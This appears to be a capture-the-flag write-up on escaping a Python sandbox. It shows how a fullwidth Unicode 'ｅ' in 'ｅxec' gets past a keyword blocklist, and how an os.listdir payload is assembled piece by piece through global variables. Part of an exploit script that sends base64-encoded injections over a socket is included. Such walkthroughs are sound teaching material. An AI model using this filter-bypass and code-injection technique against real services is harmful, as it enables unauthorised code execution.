 Sooo, we need exec, which means we firetly need to find a way to bypass the blocklist.

After a bit research, I found something interesting. If you search `unicode e` on google, you'll find out that tere is multiple e, for example, `ｅ` and `e` aren't the same, but for python 

```py
>>> "ｅ" == "e"
False

>>> ｅxec("z=555")

>>> z
555
```

Ok, so we found a way to bypass the exec, so we only need to execute our payload. Well, saying "only need" seems a litle bit misplaced considering we only have 27 characters.

My plan is simple writting characters one by one in a varaible called `a` and then execute `a` and store the result in `b` and finally show b.

Firstly, let's define the payload that will be executed,
```py
import os
b = os.listdir()
```

In python, the rule is that if we are in a functions and we do something like `a = 5` then `a` will be local, but if we do `global a;a = 5`, `a` will be a global varibale, accessible across all program. But if we need to change this varaible, we need to reuse `global a` because doing something like `global a;a=5` and after that `a+=5`, will define 2 varaible, the local one = 10 and the global one = 5.

After a some troubleshouting it appears that this also applies to modules, so if we want to import os, we need to execute `global os;import os`.

So, the payload needs to be changed a litle to match what I just said.

```py
global os
import os
b = os.listdir()
```

Let's do a list of all the queris we could need 

```py
{5:ｅxec('global a;a="gl"')} # intialize a new varaible with the string "gl"
{5:ｅxec('global a;a+="o"')} # add "o" to the variable a
{5:ｅxec(f'global a;{a}')} # execute a, don't forgoet to end with ()
{5:ｅxec(f'global b;b={a}')} # execute a and affect the result to b
{"user_name":str(a)} # print a (to debug)
{"user_name":str(b)} # print b
```

Let's execute our listdir, I'll put the intersting part of the program bellow, you can find the full file [here](scripts/jigsaw-listdir.py)

```py
### global os;import os

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJnbCInKX0=") # a = "gl"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYiInKX0=") # a += "b"
time.sleep(1)
```